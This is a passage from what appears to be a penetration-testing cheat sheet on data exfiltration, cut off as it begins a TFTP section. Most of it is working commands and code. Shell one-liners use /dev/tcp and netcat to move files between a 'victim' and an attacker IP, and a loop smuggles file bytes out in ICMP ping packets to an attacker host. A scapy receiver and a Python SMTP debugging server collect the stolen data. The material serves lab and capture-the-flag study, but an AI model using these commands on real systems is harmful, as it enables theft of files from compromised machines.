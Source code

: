 
## /dev/tcp

### Download file from victim

```bash
nc -lvnp 80 > file #Inside attacker
cat /path/file > /dev/tcp/10.10.10.10/80 #Inside victim
```

### Upload file to victim

```bash
nc -w5 -lvnp 80 < file_to_send.txt # Inside attacker
# Inside victim
exec 6< /dev/tcp/10.10.10.10/4444
cat <&6 > file.txt
```

thanks to **@BinaryShadow\_**

## **ICMP**

```bash
# To exfiltrate the content of a file via pings you can do:
xxd -p -c 4 /path/file/exfil | while read line; do ping -c 1 -p $line <IP attacker>; done
#This will 4bytes per ping packet (you could probably increase this until 16)
```

```python
from scapy.all import *
#This is ippsec receiver created in the HTB machine Mischief
def process_packet(pkt):
    if pkt.haslayer(ICMP):
        if pkt[ICMP].type == 0:
            data = pkt[ICMP].load[-4:] #Read the 4bytes interesting
            print(f"{data.decode('utf-8')}", flush=True, end="")

sniff(iface="tun0", prn=process_packet)
```

## **SMTP**

If you can send data to an SMTP server, you can create an SMTP to receive the data with python:

```bash
sudo python -m smtpd -n -c DebuggingServer :25
```

## TFTP

By default in XP and 2003 (in others it needs to be explicitly added during installation)

In Kali, **start TFTP server**:
